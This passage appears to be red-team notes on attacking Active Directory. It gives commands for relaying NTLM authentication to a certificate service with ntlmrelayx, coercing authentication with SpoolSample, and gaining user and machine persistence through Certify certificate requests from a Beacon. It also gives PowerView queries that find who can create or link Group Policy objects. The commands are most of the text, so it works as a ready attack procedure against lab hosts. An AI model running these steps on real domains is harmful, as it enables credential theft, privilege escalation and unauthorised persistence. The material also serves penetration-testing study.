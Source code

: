 Start ntlm relay

```
proxychains ntlmrelayx.py -t http://10.10.10.120/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```

Next, use one of the remote authentication methods to force a connection from workstation to SRV.

```
execute-assembly C:\Tools\SpoolSample\SpoolSample.exe <TARGET> <UNCONSTRAINED Server>
```

After obtaining a TGT with the certificate, the S4U2self trick can be used to obtain a TGS for any service on the machine, on behalf of any user.

#### User Persistence

In this example, I have a Beacon running as **TEST\USER**.  Use Certify to find all the certificates that permit client authentication:

```
 execute-assembly C:\Tools\Certify\Certify.exe find /clientauth

execute-assembly C:\Tools\Certify\Certify.exe request /ca:dc.child.test.local\ca /template:User
```

This certificate allows us to request a TGT for TEST\USER using Rubeus

#### Computer Persistence

```
execute-assembly C:\Tools\Certify\Certify.exe request /ca:dc.child.test.local\ca /template:Machine /machine
```

The `/machine` parameter tells Certify to auto-elevate to SYSTEM and assume the identity of the machine account.

### Group Policy

This PowerView query will show the Security Identifiers (SIDs) of principals that can create new GPOs in the domain, which can be translated via `ConvertFrom-SID`.

```
powershell Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=child,DC=test,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

powershell ConvertFrom-SID <SID>
```

This query will return the principals that can write to the GP-Link attribute on OUs:

```
powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

You can also get a list of machines within an OU.
